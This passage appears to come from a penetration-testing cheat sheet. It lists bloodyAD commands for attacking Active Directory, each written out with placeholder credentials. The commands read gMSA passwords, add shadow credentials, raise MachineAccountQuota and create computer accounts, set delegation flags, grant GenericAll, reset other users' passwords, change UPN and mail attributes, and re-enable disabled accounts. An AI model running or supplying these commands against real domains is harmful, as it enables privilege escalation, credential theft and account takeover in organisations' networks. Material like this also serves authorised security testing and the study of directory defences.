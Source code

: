 | **AllowedToDelegate** | Set TRUSTED\_TO\_AUTH\_FOR\_DELEGATION | `bloodyAD --host $dc -d $domain -u $username -p $password add uac $target_username -f TRUSTED_TO_AUTH_FOR_DELEGATION`                      |
| **ReadProperty**      | Read GMSA Password                     | `bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username --attr msDS-ManagedPassword`                         |
|                       | Check UPN                              | `bloodyAD --host $dc -d $domain -u $username -p $password get object $target_user --attr userPrincipalName`                                |
| **Other/Utility**     | Retrieve User Info                     | `bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username`                                                     |
|                       | Find Writable Attributes               | `bloodyAD --host $dc -d $domain -u $username -p $password get writable --detail`                                                           |
|                       | Find Deleted Objects                   | `bloodyAD --host $dc -d $domain -u $username -p $password get writable --include-del`                                                      |
|                       | Enumerate MachineAccountQuota          | `bloodyAD --host $dc -d $domain -u $username -p $password get object 'DC=dc,DC=dc' --attr ms-DS-MachineAccountQuota`                       |
|                       | Set MAQ Value                          | `bloodyAD --host $dc -d $domain -u $username -p $password set object 'DC=dc,DC=dc' ms-DS-MachineAccountQuota -v 10`                        |
|                       | Create Computer Account                | `bloodyAD --host $dc -d $domain -u $username -p $password add computer $computer_name $computer_password`                                  |
|                       | Shadow Credentials                     | `bloodyAD --host $dc -d $domain -u $username -p $password add shadowCredentials $target`                                                   |
|                       | Extended Search - Tombstones           | `bloodyAD --host $dc -d $domain -u $username -p $password -k get search -c 1.2.840.113556.1.4.2064 -c 1.2.840.113556.1.4.2065`             |

---

#####  GenericAll

###### Full Control

```sh
bloodyAD --host $dc -d $domain -u $username -p $password add genericAll $DN $target_username
```

###### Reset Password

```sh
bloodyAD --host $dc -d $domain -u $username -p $password set password $target_username $new_password
```

###### Modify UPN

```sh
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user userPrincipalName -v $new_upn
```

###### Modify Mail

```sh
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user mail -v newmail@test.local
```

###### Enable Disabled Account

```sh
bloodyAD --host $dc -d $domain -u $username -p $password remove uac $target_username -f ACCOUNTDISABLE
```
